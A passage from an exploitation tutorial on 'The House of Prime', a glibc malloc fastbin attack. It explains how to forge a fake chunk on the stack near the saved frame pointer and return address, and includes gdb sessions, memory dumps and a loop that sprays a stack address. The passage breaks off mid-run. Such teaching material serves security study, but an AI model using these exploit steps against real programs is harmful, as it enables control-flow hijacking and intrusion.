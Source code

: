 As our vulnerable program allocate 1024 bytes, it will be perfect por a
successful exploitation.

Then we can see that "fb" is set to address of a "fastbin" in "av", and in
the following sentence, its content will be the final address of "victim".
Remember that our goal is to allocate an amount of bytes into a place of
our choice.

Do you remember / * Later * / ?

Well, that is where we need to copy repeatedly the address that we want
in the stack, so any return "fastbin" set our address in "fb".

Mmmmm, but wait a moment, the next condition is the most important:

   if (fastbin_index (chunksize (victim)) != idx)

This means that the "size" field of our fakechunk must be equal to the
amount requested by "malloc()". This is the last requirement in The House
of Prime. We must control a value into memory and place address of
"victim" just 4 bytes before, so this value would become its new size.

Our vulnerable application get as parameters: "name", "surname" and "age".
This last value is an integer that will be stored in the stack. If we
make: age = 1024->(1032), we only must look for it into the stack to know
the final address of "victim".

[-----]

(gdb) run Black Ngel 1032 < file
ptr found at [ 0x80b2a20 ]
ptr1ovf found at [ 0x80b2e28 ]
ptr2ovf found at [ 0x80b3230 ]
Escriba una descripcion:
END free(1)

END free(2)

Breakpoint 2, 0x080482d9 in fvuln ()
(gdb) x/4x $ebp-32
0xbffff838:     0x00000000      0x00000000      0xbf000000      0x00000408

[-----]

Here we have our value, we should point to "0xbffff840".

        for (i = 0; i < (600 / 4); i++)
                fwrite("\x40\xf8\xff\xbf", 4, 1, stdout);
	
You should have: ptr3 = malloc(1024) = 0xbffff848, remember that it
returns a pointer to the memory (data area) and not to chunk's header.

We are really close to EBP and EIP. What happens if our "name" is
composed by a few letters "A"?

[-----]

(gdb) run Black `perl -e 'print "A"x64'` 1032 < file
.....
ptr found at [ 0x80b2a20 ]
ptr1ovf found at [ 0x80b2e28 ]
ptr2ovf found at [ 0x80b3230 ]
Escriba una descripcion:
END free(1)
